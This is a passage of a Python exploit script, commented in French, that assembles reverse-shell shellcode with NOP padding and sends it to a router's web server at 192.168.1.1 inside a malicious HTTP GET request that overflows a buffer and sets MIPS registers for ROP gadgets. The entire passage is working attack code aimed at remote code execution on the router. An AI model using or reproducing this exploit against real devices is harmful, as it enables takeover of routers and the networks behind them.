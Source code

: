 ```python
# 6. sc_bad1      - 1ère donnée encodée reverse shell
# 7. sc_mid       - Milieu reverse shell
# 8. sc_bad2      - 2ème donnée encodée reverse shell
# 9. sc_last      - Fin reverse shell

sc = sc_encode
sc += sc_fork1
sc += sc_fork_bad
sc += sc_fork2
sc += sc_first
sc += sc_bad1
sc += sc_mid
sc += sc_bad2
sc += sc_last

print("[+] Shellcode assemblé - Taille: {} octets".format(len(sc)))

# Ajout du shellcode au payload avec padding
shellcode += nop * 8  # Alignement avant le shellcode
shellcode += sc       # Le shellcode complet

# Calcul du padding final pour atteindre la taille exacte requise
# Taille totale cible: 1852 octets
# Moins: 24 (gadgets ROP) + 8 (NOP avant) + 8 (NOP après) + 18 (divers)
padding_size = (1852 - 24 - 8 - 8 - 18 - len(sc)) / 4
shellcode += nop * int(padding_size)

print("[+] Padding final ajouté: {} instructions NOP".format(int(padding_size)))

# =============================================================================
# ENVOI DE L'EXPLOIT
# =============================================================================

print("[*] Connexion au routeur cible...")
s.connect((host, 80))

print("[*] Envoi de l'exploit...")

# Construction de la requête HTTP malveillante
# GET /.html[BUFFER_OVERFLOW].html HTTP/1.1

s.send("GET /.html")           # Début URL
s.send(buf)                    # Buffer overflow principal

# Envoi des valeurs pour contrôler les registres MIPS
s.send(s0)    # Registre $s0
s.send(s1)    # Registre $s1 (adresse sleep)
s.send(s2)    # Registre $s2  
s.send(s3)    # Registre $s3 (2ème gadget ROP)
s.send(s4)    # Registre $s4
s.send(s5)    # Registre $s5
s.send(s6)    # Registre $s6
s.send(s7)    # Registre $s7
s.send(ra)    # Registre $ra (1er gadget ROP) - Point d'entrée !

s.send(shellcode)              # Notre shellcode complet

# Fin de l'URL et headers HTTP normaux
s.send(".html HTTP/1.1\n")
s.send("Host: 192.168.1.1\n")
s.send("User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:35.0) Gecko/20100101 Firefox/35.0\n")
s.send("Accept: */*\n")
```